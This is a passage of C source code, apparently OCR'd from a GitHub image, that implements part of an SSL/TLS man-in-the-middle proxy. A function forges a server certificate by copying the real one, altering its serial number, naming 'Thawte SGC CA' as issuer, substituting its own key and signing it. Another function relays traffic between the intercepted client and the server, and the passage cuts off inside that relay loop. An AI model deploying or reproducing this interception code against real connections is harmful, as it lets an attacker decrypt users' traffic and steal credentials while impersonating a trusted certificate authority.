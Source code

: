 ```
    PEM_read_RSAPrivateKey(fp, &rsa, NULL, NULL);
    if ((fp = fopen("public.key", "r")) == NULL)
        error("public.key");
    PEM_read_RSAPublicKey(fp, &rsa, NULL, NULL);
    
    EVP_PKEY_assign_RSA(key,rsa);
    return key;
}

X509* create_fake_certificate(SSL* ssl_to_server, EVP_PKEY *key) {
    unsigned char buffer[128] = { 0 };
    int length = 0, loc;
    X509 *server_x509 = SSL_get_peer_certificate(ssl_to_server);
    X509 *fake_x509 = X509_dup(server_x509);
    if (server_x509 == NULL)
        SSL_Error("Fail to get the certificate from server!");
    //    X509_print_fp(stderr, server_x509);

    X509_set_version(fake_x509, X509_get_version(server_x509));
    ASN1_INTEGER *a = X509_get_serialNumber(fake_x509);
    a->data[0] = a->data[0] + 1;
    //    ASN1_INTEGER_set(X509_get_serialNumber(fake_x509), 4);
    X509_NAME *issuer = X509_NAME_new();
    //    length = X509_NAME_get_text_by_NID(issuer, NID_organizationalUnitName,
    //            buffer, 128);
    //    buffer[length] = ' ';
    //    loc = X509_NAME_get_index_by_NID(issuer, NID_organizationalUnitName, -1);
    //    X509_NAME_delete_entry(issuer, loc);
    X509_NAME_add_entry_by_txt(issuer, "CN", MBSTRING_ASC,
            "Thawte SGC CA", -1, -1, 0);
    X509_NAME_add_entry_by_txt(issuer, "O", MBSTRING_ASC, "Thawte Consulting (Pty) Ltd.", -1, -1, 0);
    X509_NAME_add_entry_by_txt(issuer, "OU", MBSTRING_ASC, "Thawte SGC CA", -1,
            -1, 0);
    X509_set_issuer_name(fake_x509, issuer);
    //    X509_set_notBefore(fake_x509, X509_get_notBefore(server_x509));
    //    X509_set_notAfter(fake_x509, X509_get_notAfter(server_x509));
    //    X509_set_subject_name(fake_x509, X509_get_subject_name(server_x509));
    X509_set_pubkey(fake_x509, key);
    //    X509_add_ext(fake_x509, X509_get_ext(server_x509, -1), -1);
    X509_sign(fake_x509, key, EVP_sha1());
    
    //    X509_print_fp(stderr, fake_x509);
    
    return fake_x509;
}

int transfer(SSL *ssl_to_client, SSL *ssl_to_server) {
    int socket_to_client = SSL_get_fd(ssl_to_client);
    int socket_to_server = SSL_get_fd(ssl_to_server);
    int ret;
    char buffer[4096] = { 0 };

    fd_set fd_read;
    
    printf("%d, waiting for transfer\n", sum);
    while (1) {
        int max;
    
        FD_ZERO(&fd_read);
        FD_SET(socket_to_server, &fd_read);
        FD_SET(socket_to_client, &fd_read);
        max = socket_to_client > socket_to_server ? socket_to_client + 1
```